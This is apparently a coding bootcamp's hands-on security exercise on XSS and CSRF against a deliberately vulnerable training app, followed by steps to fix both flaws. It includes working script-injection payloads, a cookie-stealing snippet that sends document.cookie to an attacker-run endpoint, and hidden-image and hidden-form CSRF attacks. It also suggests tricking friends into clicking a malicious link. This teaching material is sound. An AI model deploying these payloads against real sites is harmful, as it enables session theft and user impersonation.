



# Pair Programming Exercise: Steal This App: Exercise 2

## Getting started

1. Create a user account on [http://steal-this-app-horizons.herokuapp.com/exercise2](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Login!

## Part 1: Insecure Messenger Cross-site Scripting (XSS)

Insecure messenger lets you send messages to other users on Steal This App.
Unfortunately, it is vulnerable to Cross-Site Scripting (XSS) attacks.

### a. Running JavaScript as someone else

The message body is not sanitized (i.e., escaped) before being rendered to the
page. First, let's exploit this vulnerability by making people send messages
without their knowledge.

1. Create a new user. We'll call this `User A`.
1. Send the following message to `User A` from `User A`, then refresh the page and check your console. You should see a message!

    ```html
    <script>
      console.log("I'm in your browser, running your JavaScripts");
    </script>
    ```

1. We're gonna make `User A` send a message to another user via XSS. [Logout](https://steal-this-app-horizons.herokuapp.com/exercise2/logout) and create a new user, `User B`. <br>
Switch the `console.log()` statement from the previous step with an `$.ajax()` call.

    Take a look at the `POST` request that the `Send Message` form on this page is making. We want to replicate it so that when `User A`     opens their inbox, your AJAX call will automatically send your message.

    ```html
    <script>
      $.ajax('/URL OF THIS PAGE', {
        method: 'post',
        data: {
          // Inspect the send message form to see how the form submits the data
          // Insert your own form data here
        }
      })
    </script>
    ```

1. Send your specially crafted message from `User B` to `User A` to make sure that you can use the same attack across users. When  `User A` opens the message, the ajax call should fire and the message data should be sent.

### b. Drive by: running JavaScript as someone else

There's another thing that's vulnerable on this page: the `success` query
parameter. This parameter is also not sanitized before being rendered to the page, so we can run JavaScript with it too!

1. [Success messages under normal operation](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=YOUR%20MESSAGE%20HERE)
1. [Whoops, this link runs JavaScript](http://steal-this-app-horizons.herokuapp.com/exercise2/messenger?success=Check%20your%20console%20for%20the%20Javascript%3Cscript%3Econsole.log%28'Another%20day%2C%20another%20XSS'%29%3C%2Fscript%3E)

#### Putting JavaScript in URLs

You can generate JavaScript to put in URLs using the `encodeURIComponent()` function (run it in the console and copy the result):

```javascript
encodeURIComponent('<script>YOUR SCRIPT HERE</script>')
<- "%3Cscript%3EYOUR%20SCRIPT%20HERE%3C%2Fscript%3E"
```
1. Create a link that makes someone send a message to you when they open
it in their browser.
1. See if you can get your friends to click on it.

### c. Stealing cookies

A website is only as secure as its cookies. If you can steal someone's cookie,
you can impersonate them. This page is vulnerable, because it prints out received messages
on the page without escaping (i.e., sanitizing) the HTML.

We can run JavaScript on other users' pages by sending them messages containing the &lt;script&gt; tag. Cookies are accessible (by default) in JavaScript via `document.cookie`, so if we craft the right script tag, we can
steal their cookie!

1. Let's print out the cookie to the console.

```html
<script>
  console.log('I can see your cookies!', document.cookie);
</script>
```

1. Let's keep those cookies when we steal them.

    Make sure you are in your `horizons` folder by running:

    ```bash
    pwd
    ```

    Clone our repository the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app) and create your own branch:

    ```bash
    git clone git@github.com:horizons-school-of-technology/attacker-steal-this-app.git
    cd attacker-steal-this-app
    git checkout -b YOUR GIT USERNAME
    ```

1. Start this app on your localhost and visit [http://localhost:3000/cookieCatcher](http://localhost:3000/cookieCatcher), you should see a message in your terminal that looks like this:

    ```
    !!!Cookie catcher!!!
    {}
    !!!Cookie catcher!!!
    ```

1. We're going to use this endpoint to transmit the stolen cookie back to
  us. We can then use the cookie to impersonate the user.
1. Create either a specially crafted message or a URL that creates an `img`
  tag and appends it to the body. We're going to store `document.cookie`
  inside the `src` attribute of this image. The  `src` attribute automatically fires a GET request when the image is loaded

    ```javascript
    //create a new img tag
    var img = $('');
    
    // Read and submit this cookie via the img tag
    img.attr('src', "http://localhost:3000/cookieCatcher?cookie=") // YOU NEED TO EDIT THIS LINE to pass the cookies to your server.
    
    // append the HTML element into the DOM and therefore fire a GET request to the URL above.
    $('body').append(img); 
    ```

1. Note the value of the cookie in the command line. Use either
  the DevTools console or a Chrome Plugin to create the same cookie
  on Steal This App in an incognito window thereby impersonating the
  original owner of the cookie.

## Part 2: Fix XSS vulnerabilities

Let's go back to the `steal-this-app` repo from the first exercise. The vulnerabilities allowing these XSS attacks are in
`steal-this-app/views/messenger.hbs`.

Replace the triple-brace Handlebars references with secure double-brace
Handlebars references.

After fixing this, attempt the XSS attacks you did earlier to verify they
no longer work! Make sure to use your local version of steal-this-app on localhost:3000.

Remember, this is secure:

```
{{secure}}
```

This is insecure:

```
{{{insecure}}}
```

Triple braces allow us to insert HTML into handlebars files, but we only want HTML *we've* written to be inserted into our files (like partials). Always use double braces when inserting user input directly into your app to keep users from running their own HTML on your page.

## Part 3: Insecure Messenger Cross-site Request Forgery (CSRF)

Insecure Messenger is vulnerable to another type of attack, called
Cross-Site Request Forgery, or CSRF.

This type of attack does not involve running JavaScript in the target site, but instead makes requests on behalf of the user when they are on a 3rd party site.

### a. Logout your enemies

In this exercise we're going to log someone out of Insecure Messenger
without their knowledge. We're going to do this using a hidden `img` that
will make a `GET` request to a destination of the attacker's choosing.

1. Log in to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2)
1. Start the [Attacker companion to Steal This App](https://github.com/horizons-school-of-technology/attacker-steal-this-app) and connect to [http://localhost:3000/](http://localhost:3000/) to make sure it's running.
1. Create a new `GET /csrfLogout` route that renders a single `img` tag with a src that points to the logout page:
  

1. Visit your new endpoint.
1. Go back to [Insecure Messenger](http://steal-this-app-horizons.herokuapp.com/exercise2). Are you still logged in?

### (Bonus) b. Send POST request with CSRF

Okay, we made someone log out without telling them. What's the big deal?
Well, let's take it to the next level by making a `POST`
request without their knowledge as well.

This time we're going to make them send messages, just like we did earlier,
but without relying on XSS.

We need a new page on the Attacker side that contains a hidden form.

We are going make this form talk to
`http://steal-this-app-horizons.herokuapp.com/exercise2/messenger` using the `action` attribute, and specify a `POST` request with the `method` attribute. It should look like this:



Once you get your form working, you can pull up the inbox of the
user that you sent a message to and verify that your attack succeeded.



### (Bonus) c. Fix CSRF vulnerabilities

To fix CSRF, we need to add a second layer of protection to endpoints
that perform actions (i.e., `POST` endpoints).

We will use the NPM package `csurf` to accomplish this.

1. Add `csurf` to your `app.js` in this repo.

    ```javascript
    var csrf = require('csurf')();
    app.use(csrf);
    ```

1. Now all your `GET` requests will contain `req.csrfToken()`, which you can render as a hidden form field in all endpoints that render a page.

    **Route**

    ```javascript
    app.use('/route', function(req, res) {
      res.render('template', {
        _csrf: req.csrfToken()
      });
    });
    ```

    **Template**

    ```html
    <form method="post">
      <input type="hidden" name="_csrf" value="{{csrfToken}}">
    </form>
    ```

1. `POST` requests without a valid token in the `_csrf` field will now be
  automatically rejected.

## Done!

Wow! You completed everything! That was amazing! 🔥🎉✅
